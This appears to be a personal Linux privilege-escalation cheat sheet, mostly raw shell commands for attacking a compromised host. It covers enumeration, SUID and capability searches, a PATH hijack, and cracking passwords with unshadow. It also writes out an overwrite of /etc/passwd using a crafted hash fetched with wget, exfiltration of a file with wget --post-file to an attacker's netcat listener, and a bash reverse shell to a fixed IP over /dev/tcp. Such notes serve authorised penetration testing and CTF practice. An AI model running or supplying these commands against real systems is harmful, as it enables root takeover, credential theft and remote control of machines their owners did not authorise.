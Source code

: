 # Linux Privesc

```
hostname

uname -a

/proc/version

/etc/issue

ps axjf

ps aux

env

sudo -l

id

/etc/passwd

history

ifconfig

ip route

netstat -ano

netstat -tulpn



```



unshadow passwd.txt shadow.txt > passwords.txt



## Find

```  
find / -type f -perm -04000 -ls 2>/dev/null


find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null


find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

find / -writable 2>/dev/null

```

## Capabilities

```
getcap -r / 2>/dev/null

```

## Cron

```
/etc/crontab

cat /etc/crontab
```

## PATH
```
echo $PATH

export PATH=/tmp:$PATH
```

## NFS
```
cat /etc/exports

showmount -e $target

mount -o rw 10.10.1.128:/home/backup tmp21




```


https://gtfobins.github.io/
https://lolbas-project.github.io/
https://www.exploit-db.com/

https://github.com/SolomonSklash/htbenum


## WGET 1 

### Attacker

```
openssl passwd -1 -salt salt pass123
```

localy add to the an example passwd file and make it available on http

```
python3 -m http.server
```

### Target
```
wget -O passwd http://192.168.1.108:8000/passwd
```

login or su to that user with the password 'pass123'

## WGET 2

### Attacker

open netcat to allow the target to push the file

```
nc -lvnp 1234
```

### Target

```
URL=attacker_ip:1234
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

# Reverse Shell
```
bash -i >& /dev/tcp/10.9.65.211/1234 0>&1
```
